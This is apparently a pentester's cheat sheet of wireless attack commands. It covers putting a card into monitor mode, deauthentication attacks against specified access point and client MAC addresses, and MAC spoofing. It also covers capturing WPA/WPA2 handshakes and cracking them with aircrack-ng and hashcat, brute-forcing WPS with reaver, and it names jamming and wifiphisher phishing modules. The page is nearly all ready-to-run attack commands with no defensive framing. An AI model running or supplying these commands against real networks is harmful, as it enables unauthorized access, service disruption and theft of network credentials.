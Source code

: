 # Wireless Attacks

WIRELESS ATTACKS

  
 iwconfig  
 iwconfig eth0 channel 3

 airmon-ng start wlan0  
 airmon-ng check kill  
 airodump-ng wlan0mon

 airmon-ng stop wlan0mon ==&gt; to reset to wlan0 when done  
 service network-manager restart  
 service NetworkManager restart  
 service avahi-daemon restart

 aireplay-ng -9 wlan0mon - test for packet injection

 Kismet

 aireplay-ng -0 10 -a 50:C7:BF:A8:A2:D0 -c 10:F1:F2:86:AE:1B wlanmon0

* --deauth attack

  
 --bypass MAC and open auth  
 macchanger wlan0mon -e =&gt; change mac keeping device ID

ATTACKING WPA AND WPA2

airodump-ng wlan0mon  
 -capture traffic between ap and client:

* airodump-ng --bssid&lt;MAC Address&gt; -c 1 --write /root/Desktop/nameofthewifi wlan0mon
* aireplay-ng -deauth 11 -a &lt;MAC Address&gt; wlan0mon
* use aircrack to break key - aircrack-ng-w passwordlist -b BSSID /root/Desktop/Wifi/nameofthewifi.cap

  
 -convert .cap to hashcat - ./cap2hccapx.bin input.pcap output.hccapx \[filtering by essid\] \[additional network essid: bssid\]

 -run hashcat

* hashcat --force -a 0 -m 2500 /root/lnawireless.hccapx /root/lna.txt

 --REAVER--  
 - use wash for finding vulnerable network

* wash -i wlan0 --ignore-fcs
* reaver -i wlan0 -b \(BBSID\) -vv

  
 --WEBSPLOIT--  
 wifi/wifi\_jammer module

 --WIFIPHISHER--

